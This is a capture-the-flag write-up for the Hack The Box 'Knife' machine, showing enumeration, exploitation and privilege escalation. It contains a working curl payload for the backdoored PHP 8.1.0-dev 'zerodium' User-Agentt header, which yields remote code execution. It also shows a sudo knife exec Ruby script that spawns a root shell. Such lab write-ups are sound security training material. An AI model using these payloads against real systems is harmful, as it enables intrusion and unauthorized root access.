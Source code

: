 ![](knife_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.242 knife.htb

__nmap scan:__
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running PHP version is
```bash
❯ curl -I http://knife.htb/
HTTP/1.1 200 OK
Date: Sun, 23 May 2021 02:42:36 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Content-Type: text/html; charset=UTF-8
```

This is looks like a backdoor php which happened after php-rce github repo is compromised and someone made a [commit with backdoor](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d)

This backdoor executes PHP code from within the useragent HTTP header `User-Agentt`, if the string starts with 'zerodium'
```php
zerodium$any_php_function();
```

# Foothold

## backdoored php Version

Exploit it by sending payload in `User-Agentt` header 
```bash
❯ curl -s  http://knife.htb/ -H "User-Agentt: zerodiumsystem('id');" | sed '/<!DOCTYPE html>/,/<\/html>/d'
uid=1000(james) gid=1000(james) groups=1000(james)
```

![](screenshots/web-shell.png)

# Privesc

## `knife` Command with sudo

User "james" have sudo rights to run `/usr/bin/knife` as root with NOPASSWD
```bash
(remote) james@knife:/opt/opscode$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

__[knife](https://docs.chef.io/workstation/knife_setup/):__ knife is a command-line tool that provides an interface between a local chef-repo and the Chef Infra Server. The knife command line tool must be configured to communicate with the Chef Infra Server as well as any other infrastructure within your organization.
  * __Chef Infra__ is a configuration management tool for defining infrastructure as code (IAC), making the process of managing configurations and system state automated and testable.

There is command in knife `[knife exec](https://docs.chef.io/workstation/knife_exec/)` which execute Ruby scripts in the context of a fully configured Chef Infra Client.

__Create rubby script__
```rb
system('/bin/bash')
```

__Run__
```bash
sudo -u root /usr/bin/knife exec script.rb
```

![](screenshots/knife-rooted.png)

